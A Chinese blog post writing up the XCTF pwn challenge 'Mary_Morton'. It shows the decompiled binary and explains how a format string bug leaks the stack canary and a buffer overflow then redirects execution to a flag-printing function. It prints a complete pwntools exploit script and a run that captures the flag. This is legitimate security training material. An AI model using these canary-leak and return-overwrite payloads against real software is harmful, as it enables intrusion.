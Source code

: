 <!--yml
category: 未分类
date: 2022-04-26 14:38:32
-->

# Mary_Morton [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列17_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103676674](https://blog.csdn.net/fastergohome/article/details/103676674)

题目地址：[Mary_Morton](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4979&page=1)

已经是高手进阶区的第六题了，每个题目都有不少收获，持之以恒！

先看看题目内容

![](img/dc4779397f8812e29b0c78e3ef7e3044.png)很好，这是一道非常简单的热身pwn，当然，我是不会相信的！哈哈

大家应该注意到了，难度系数第一次>1星了，步入2星的阶段，最高是10星！期待一下

惯例先来检查安全机制

```
root@mypwn:/ctf/work/python/mary_morton# checksec 4a6845da698e4ea2b922a0fef483bfda 
[*] '/ctf/work/python/mary_morton/4a6845da698e4ea2b922a0fef483bfda'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

开启了Canary，上个题目直接用数组下标任意填写，来绕过来Canary，看看这题我们要遇见什么呢！

先打开IDA看看题目情况

![](img/c89986bf77d3b525f9b535563b41a75e.png)

 这个题目内容确实不复杂，说是热身题也没错，我简单做了一下变量和函数重命名，给大家贴出来c语言代码：

```
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int nChoice; // [rsp+24h] [rbp-Ch]
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  init_env();
  puts("Welcome to the battle ! ");
  puts("[Great Fairy] level pwned ");
  puts("Select your weapon ");
  while ( 1 )
  {
    while ( 1 )
    {
      menu_string();
      __isoc99_scanf("%d", &nChoice);
      if ( nChoice != 2 )
        break;
      Menu2();
    }
    if ( nChoice == 3 )
    {
      puts("Bye ");
      exit(0);
    }
    if ( nChoice == 1 )
      Menu1();
    else
      puts("Wrong!");
  }
}

unsigned __int64 Menu1()
{
  char buf; // [rsp+0h] [rbp-90h]
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(&buf, 0, 0x80uLL);
  read(0, &buf, 0x100uLL);
  printf("-> %s\n", &buf);
  return __readfsqword(0x28u) ^ v2;
}

unsigned __int64 Menu2()
{
  char buf; // [rsp+0h] [rbp-90h]
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(&buf, 0, 0x80uLL);
  read(0, &buf, 0x7FuLL);
  printf(&buf, &buf);
  return __readfsqword(0x28u) ^ v2;
}

int get_flag()
{
  return system("/bin/cat ./flag");
} 
```

一共四个函数：

1.  main是主函数
2.  Menu1函数存在read溢出漏洞
3.  Menu2函数存在格式化字符串漏洞
4.  get_flag函数提供给我们输出处flag

为什么要给我们提供两个漏洞，那就是因为存在Canary保护机制。

处理步骤如下：

1.  通过格式化字符串漏洞获取Canary值
2.  通过read溢出漏洞覆盖Canary值和EIP值，跳转到get_flag函数

首先确定一个格式化字符串漏洞的步长，构造payload如下：

```
payload = 'AAAA.1.%1$#x.2.%2$#x.3.%3$#x.4.%4$#x.5.%5$#x.6.%6$#x.7.%7$#x.8.%8$#x.'
```

编写一个函数，可以方便的执行payload ，脚本如下：

```
def fmt_str(payload, choice):
	p.sendlineafter('3\. Exit the battle \n', str(choice))
	p.sendline(payload)
	info = p.recv().splitlines()[0]
	print "info:"+info
	return info
```

执行之后结果如下：

```
root@mypwn:/ctf/work/python/mary_morton# python mary_morton.py
[+] Opening connection to 111.198.29.45 on port 45464: Done
info:AAAA.1.0x2b7ea2f0.2.0x7f.3.0x2c1b4260.4.0.5.0.6.0x41414141.7.0x78232431.8.0x78232432.
AAAA.1.0x2b7ea2f0.2.0x7f.3.0x2c1b4260.4.0.5.0.6.0x41414141.7.0x78232431.8.0x78232432.
[*] Closed connection to 111.198.29.45 port 45464
```

注意到6.0x41414141，那么步长就是6。 

下面我们就先构造一下这两个步骤需要的payload

1、获取canary

```
step = 6
num = step+(0x90-8)/8
payload = '%'+str(num)+'$p'
```

2、read溢出到eip

```
get_flag_addr = 0x4008DA
payload = 'A'*(0x90-8) + p64(canary) + 'A'*8 + p64(get_flag_addr)
```

根据上面到payload编写python脚本如下：

```
#coding:utf8

from pwn import *
context.log_level = 'debug'
process_name = '4a6845da698e4ea2b922a0fef483bfda'

# p = process(process_name)
p = remote('111.198.29.45', 45464)

def fmt_str(payload, choice):
	p.sendlineafter('3\. Exit the battle \n', str(choice))
	p.sendline(payload)
	info = p.recv().splitlines()[0]
	print "info:"+info
	return info

# payload = 'AAAA.1.%1$#x.2.%2$#x.3.%3$#x.4.%4$#x.5.%5$#x.6.%6$#x.7.%7$#x.8.%8$#x.'
# print fmt_str(payload, 2)

step = 6
num = step+(0x90-8)/8
payload = '%'+str(num)+'$p'
canary = int(fmt_str(payload, 2).split('x', 1)[1], 16)
log.info("canary => %#x", canary)

get_flag_addr = 0x4008DA
payload = 'A'*(0x90-8) + p64(canary) + 'A'*8 + p64(get_flag_addr)
fmt_str(payload, 1)

p.interactive()
```

```
root@mypwn:/ctf/work/python/mary_morton# python mary_morton.py
[+] Opening connection to 111.198.29.45 on port 45464: Done
[DEBUG] Received 0x18 bytes:
    'Welcome to the battle ! '
[DEBUG] Received 0x77 bytes:
    '\n'
    '[Great Fairy] level pwned \n'
    'Select your weapon \n'
    '1\. Stack Bufferoverflow Bug \n'
    '2\. Format String Bug \n'
    '3\. Exit the battle \n'
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Sent 0x6 bytes:
    '%23$p\n'
[DEBUG] Received 0x13 bytes:
    '0x32e0978333c6af00\n'
info:0x32e0978333c6af00
[*] canary => 0x32e0978333c6af00
[DEBUG] Received 0x47 bytes:
    '1\. Stack Bufferoverflow Bug \n'
    '2\. Format String Bug \n'
    '3\. Exit the battle \n'
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Sent 0xa1 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000080  41 41 41 41  41 41 41 41  00 af c6 33  83 97 e0 32  │AAAA│AAAA│···3│···2│
    00000090  41 41 41 41  41 41 41 41  da 08 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    000000a0  0a                                                  │·│
    000000a1
[DEBUG] Received 0x8c bytes:
    '-> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
info:-> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[*] Switching to interactive mode
[DEBUG] Received 0x2d bytes:
    'cyberpeace{4ecf7db84b3599e2a5b396ce077e41e2}\n'
cyberpeace{4ecf7db84b3599e2a5b396ce077e41e2}
[*] Got EOF while reading in interactive
$ 
```

执行成功，直接拿到了flag。